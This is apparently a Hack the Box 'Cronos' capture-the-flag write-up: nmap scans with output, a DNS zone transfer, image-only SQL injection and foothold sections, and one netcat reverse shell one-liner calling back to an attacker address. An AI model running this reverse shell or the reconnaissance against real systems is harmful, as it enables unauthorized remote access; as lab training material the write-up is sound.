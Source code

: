 # Hack the Box - Cronos

```CSS
▶ nmap -Pn -sS -O -p- 10.10.10.13 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.13
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.93%E=4%D=5/16%OT=22%CT=1%CU=35700%PV=Y%DS=2%DC=I%G=Y%TM=64630A9
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(
OS:O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11
OS:NW7%O6=M53CST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(
OS:R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 83.45 seconds
```

```CSS
▶ nmap -sC -sV -p 22,53,80 10.10.10.13 -oN services.nmap

Nmap scan report for 10.10.10.13
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18b973826f26c7788f1b3988d802cee8 (RSA)
|   256 1ae606a6050bbb4192b028bf7fe5963b (ECDSA)
|_  256 1a0ee7ba00cc020104cda3a93f5e2220 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.22 seconds
```

---

## Host Information
```CSS
▶ nslookup 10.10.10.13 10.10.10.13
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5f8b3c5a-66ec-4668-ac83-682205159d32)
Domain Name: ns1.cronos.htb

---

## Zone Transfer
```
▶ dig axfr @10.10.10.13 cronos.htb
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f37c34e6-4d34-4565-87d3-d57ee7464ad4)
Domain Name: admin.cronos.htb

---

## HTTP 80

URL: `http://cronos.htb`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5d2fecb6-cef4-421c-8578-37bfc1d978e4)

URL: `http://admin.cronos.htb`
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0fc5cbe0-b195-4dfd-aeea-79270f2ad30b)

---

## SQL Injectiion

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c7c14eb8-7b03-4137-ad50-5c3055c16fc6)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/7d97f11f-291d-4d3f-8a4f-1cef755d648c)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/2c8419e7-77d5-457d-a8eb-b80229de3c1d)

---

## Initial Foothold

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4e29b9df-4240-487b-98a4-6a4ce682140b)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/c8eb3f14-7b88-4eb2-9f7c-1c1412221f29)

Reverse Bash Shell:
```CSS
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 9001 >/tmp/f
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/4ccaedd1-7c22-4e29-8abf-604bffdac4f7)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8fffd4c2-df59-48a1-89ef-d19e17c3b03f)

### Upgrade Shell to Interactive TTY
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/f1518828-bc05-447a-8313-5a248395867b)

---

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/56cb864f-b376-435b-b207-10757c095dc7)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/28989d3b-05b5-4aec-89c7-3b1e78254bb3)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d46994ef-c6fd-46ab-9f41-51a017a1c1e6)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee8359b1-9f96-4aa6-a14c-adf24cc90004)

---

![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ee40815a-384a-44e4-acdf-7a0ca4ccb217)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/3d6b6e59-78c5-4c55-80de-f9327d40a6c0)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/0fa4fbaf-185b-4cde-b80a-a87d7ccccaaf)
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ebe3cceb-b6b3-4762-b0ef-9ccca2b1741f)

